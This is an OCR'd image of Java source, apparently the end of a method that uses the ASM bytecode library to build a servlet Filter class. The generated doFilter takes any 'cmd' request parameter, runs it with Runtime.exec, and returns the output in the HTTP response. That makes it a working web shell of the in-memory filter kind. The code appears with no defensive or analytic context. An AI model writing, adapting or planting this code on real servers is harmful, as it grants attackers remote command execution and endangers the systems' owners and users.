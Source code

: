 ```java
    methodVisitor.visitEnd();
    methodVisitor = classWriter.visitMethod(ACC_PUBLIC, "doFilter", "(Ljavax/servlet/ServletRequest;Ljavax/servlet/ServletResponse;Ljavax/servlet/FilterChain;)V", null, new String[]{"java/io/IOException", "javax/servlet/ServletException"});
    methodVisitor.visitCode();
    methodVisitor.visitVarInsn(ALOAD, 1);
    methodVisitor.visitTypeInsn(CHECKCAST, "javax/servlet/http/HttpServletRequest");
    methodVisitor.visitVarInsn(ASTORE, 4);
    methodVisitor.visitVarInsn(ALOAD, 4);
    methodVisitor.visitLdcInsn("cmd");
    methodVisitor.visitMethodInsn(INVOKEINTERFACE, "javax/servlet/http/HttpServletRequest", "getParameter", "(Ljava/lang/String;)Ljava/lang/String;", true);
    Label label0 = new Label();
    methodVisitor.visitJumpInsn(IFNULL, label0);
    methodVisitor.visitIntInsn(SIPUSH, 1024);
    methodVisitor.visitIntInsn(NEWARRAY, T_BYTE);
    methodVisitor.visitVarInsn(ASTORE, 5);
    methodVisitor.visitMethodInsn(INVOKESTATIC, "java/lang/Runtime", "getRuntime", "()Ljava/lang/Runtime;", false);
    methodVisitor.visitVarInsn(ALOAD, 4);
    methodVisitor.visitLdcInsn("cmd");
    methodVisitor.visitMethodInsn(INVOKEINTERFACE, "javax/servlet/http/HttpServletRequest", "getParameter", "(Ljava/lang/String;)Ljava/lang/String;", true);
    methodVisitor.visitMethodInsn(INVOKEVIRTUAL, "java/lang/Runtime", "exec", "(Ljava/lang/String;)Ljava/lang/Process;", false);
    methodVisitor.visitVarInsn(ASTORE, 6);
    methodVisitor.visitVarInsn(ALOAD, 6);
    methodVisitor.visitMethodInsn(INVOKEVIRTUAL, "java/lang/Process", "getInputStream", "()Ljava/io/InputStream;", false);
    methodVisitor.visitVarInsn(ALOAD, 5);
    methodVisitor.visitMethodInsn(INVOKEVIRTUAL, "java/io/InputStream", "read", "([B)I", false);
    methodVisitor.visitVarInsn(ISTORE, 7);
    methodVisitor.visitVarInsn(ALOAD, 2);
    methodVisitor.visitMethodInsn(INVOKEINTERFACE, "javax/servlet/ServletResponse", "getWriter", "()Ljava/io/PrintWriter;", true);
    methodVisitor.visitTypeInsn(NEW, "java/lang/String");
    methodVisitor.visitInsn(DUP);
    methodVisitor.visitVarInsn(ALOAD, 5);
    methodVisitor.visitInsn(ICONST_0);
    methodVisitor.visitVarInsn(ILOAD, 7);
    methodVisitor.visitMethodInsn(INVOKESPECIAL, "java/lang/String", "<init>", "([BII)V", false);
    methodVisitor.visitMethodInsn(INVOKEVIRTUAL, "java/io/PrintWriter", "write", "(Ljava/lang/String;)V", false);
    methodVisitor.visitVarInsn(ALOAD, 6);
    methodVisitor.visitMethodInsn(INVOKEVIRTUAL, "java/lang/Process", "destroy", "()V", false);
    methodVisitor.visitInsn(RETURN);
    methodVisitor.visitLabel(label0);
    methodVisitor.visitVarInsn(ALOAD, 3);
    methodVisitor.visitVarInsn(ALOAD, 1);
    methodVisitor.visitVarInsn(ALOAD, 2);
    methodVisitor.visitMethodInsn(INVOKEINTERFACE, "javax/servlet/FilterChain", "doFilter", "(Ljavax/servlet/ServletRequest;Ljavax/servlet/ServletResponse;)V", true);
    methodVisitor.visitInsn(RETURN);
    methodVisitor.visitMaxs(6, 8);
    methodVisitor.visitEnd();
    methodVisitor = classWriter.visitMethod(ACC_PUBLIC, "destroy", "()V", null, null);
    methodVisitor.visitCode();
    methodVisitor.visitInsn(RETURN);
    methodVisitor.visitMaxs(0, 1);
    methodVisitor.visitEnd();
    classWriter.visitEnd();
    return classWriter.toByteArray();
}
```